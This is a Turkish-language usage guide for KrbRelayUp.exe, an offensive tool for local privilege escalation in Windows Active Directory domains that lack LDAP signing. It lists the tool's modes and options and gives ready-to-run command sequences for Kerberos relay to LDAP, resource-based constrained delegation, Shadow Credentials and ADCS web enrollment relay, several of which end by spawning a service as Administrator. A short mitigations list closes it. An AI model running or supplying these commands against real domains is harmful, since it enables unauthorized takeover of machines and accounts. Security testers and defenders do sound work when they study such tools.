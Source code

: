 # KrbRelayUp.exe Kullanım Kılavuzu

## Hakkında

**KrbRelayUp**, Kerberos protokolünü kullanarak çeşitli zafiyetleri sümültmek için geliştirilmiş bir aracıdır. Bu aracın ana amacı, LDAP imzalama zorunluluğu bulunmayan Windows domain ortamlarında yerel yetki yükseltme saldırıları yapmaktır. 

---

## Özellikler ve Desteklenen Yöntemler

### Desteklenen Saldırı Teknikleri

- **Yeni bilgisayar hesabı oluşturma**
- **Makine hesabı kimlik doğrulama zorlaması (KrbRelay)**
- **LDAP'ı hedef alarak Kerberos relay**
- **RBCD (Resource-Based Constrained Delegation) kullanarak ST (Service Ticket) alımı**
- **Shadow Credentials desteği**
- **ADCS (Active Directory Certificate Services) Web Enrollment Relay**

---

## Kullanım

### Genel Kullanım Formatı

```bash
KrbRelayUp.exe [mod] [opsiyonlar]
```

### Modlar

#### FULL
Komple süreci yürütür. RELAY ve SPAWN işlemlerini birleştirir.

#### RELAY
Kerberos yetkilendirme talebini zorlayarak LDAP'ı hedef alır ve kontrol primi oluşturur.

```bash
KrbRelayUp.exe relay -d domain.local -cn bilgisayarAdi [-c] [-cp parola | -ch NTLMhash]
```

#### SPAWN
Kerberos biletini kullanarak yeni bir hizmet oluşturur.

```bash
KrbRelayUp.exe spawn -d domain.local -cn bilgisayarAdi [-cp parola | -ch NTLMhash] <-i kullanici>
```

#### KRBSCM
Yüklenmiş Kerberos hizmet biletiyle yeni bir hizmet oluşturur.

```bash
KrbRelayUp.exe krbscm <-s servisAdi> <-sc servisKomutu>
```

---

## Opsiyonlar

- `-m` veya `--Method`: Küllanılacak yöntem (varsayılan: rbcd)
- `-p` veya `--Port`: COM sunucusu portu (varsayılan: 12345)
- `-cls` veya `--Clsid`: CLSID (varsayılan: 90f18417-f0f1-484e-9d3c-59dceee5dbd8)
- `-c` veya `--CreateNewComputerAccount`: Yeni bilgisayar hesabı oluştur
- `-cn` veya `--ComputerName`: Bilgisayar adı (varsayılan: KRBRELAYUP$)
- `-cp` veya `--ComputerPassword`: Bilgisayar hesabı parolası (varsayılan: Rastgele)
- `-ch` veya `--ComputerPasswordHash`: NTLM hash
- `-f` veya `--ForceShadowCred`: Shadow Credentials temizleme zorlaması
- `-ca` veya `--CAEndpoint`: CA (Certificate Authority) uç noktası FQDN (varsayılan: DC ile aynı)
- `-https`: HTTPS kullanarak CA'ya bağlan
- `-cet` veya `--CertificateTemplate`: Sertifika şablonu (varsayılan: Machine)
- `-ce` veya `--Certificate`: Sertifika veya sertifika dosyası yolu
- `-cep` veya `--CertificatePassword`: Sertifika parolası

---

## Örnek Kullanımlar

### Yeni Bilgisayar Hesabıyla RBCD Saldırısı

```bash
KrbRelayUp.exe relay -d domain.local -c -cn KRBRELAYUP$ -cp StrongPassword
KrbRelayUp.exe spawn -d domain.local -cn KRBRELAYUP$ -cp StrongPassword -i Administrator
```

### Shadow Credentials ile Saldırı

```bash
KrbRelayUp.exe relay -d domain.local -m shadowcred
KrbRelayUp.exe spawn -d domain.local -m shadowcred -ce cert.pem
```

### ADCS Web Enrollment Relay Kullanımı

```bash
KrbRelayUp.exe relay -d domain.local -ca ca.domain.local -https -cet User
KrbRelayUp.exe spawn -d domain.local -m adcs -ce cert.pem
```

---

## Mitigasyonlar

1. LDAP imzalama ve kanal bağlantı zorlamalarını etkinleştirin.
2. **MS-DS-Machine-Account-Quota** değerini 0 olarak ayarlayarak yeni makine hesaplarının eklenmesini engelleyin.
3. "Hesap hassastır ve devredilemez" bayrağını kritik hesaplar için etkinleştirin.
4. ADCS'de TLS kullanımını zorunlu hale getirin ve Gelişmiş Kimlik Doğrulama Korumasını etkinleştirin.

---

## Katkılar

- **Dec0ne** ve **Cube0x0** çalışmalarından esinlenilmiştir.
- **Rubeus** ve **ADCSPwn** kodlarından bölümler entegre edilmiştir.

---

## Lisans

**KrbRelayUp** aracı, BSD-3-Clause lisansı altında sunulmaktadır.

